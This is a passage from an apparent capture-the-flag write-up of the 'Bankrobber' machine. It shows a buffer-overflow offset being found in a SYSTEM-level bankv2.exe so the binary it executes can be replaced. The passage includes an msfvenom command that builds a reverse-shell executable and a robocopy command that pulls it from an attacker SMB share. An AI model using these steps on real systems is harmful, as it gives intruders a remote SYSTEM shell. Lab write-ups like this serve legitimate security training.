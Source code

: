 Now to use the buffer on `bankv2.exe`:

![overflow1](./bankrobber/overflow1.png)

So there is an overflow and the bytes at the begining of the command string are `0Ab1`. Using the Kali sister ruby script `pattern_offset.rb`, the buffer offset is 32:

![overflow2](./bankrobber/overflow2.png)

Since that completely overwrote the path string from the first execution (which was `c:\users\admin\desktop\transfer.exe`), it is hopeful that overwriting this path string provides control to which binary is executed on behalf of `bankv2.exe` (which was shown to be running as SYSTEM from the `tasklist` output previously). First thing is to make a payload:

```bash
msfvenom --platform windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe > shell.exe
```

Next transfer the payload to the target using `robocopy.exe` from the `smbserver` on Kali:

```visual basic
robocopy.exe \\<attacker-ip>\<smbserver-share> %USERPROFILE% shell.exe
```

Then trigger the overflow:

- **NOTE:** `%USERPROFILE%` expands to `C:\Users\Cortin` on the target system

![overflow3](./bankrobber/overflow3.png)

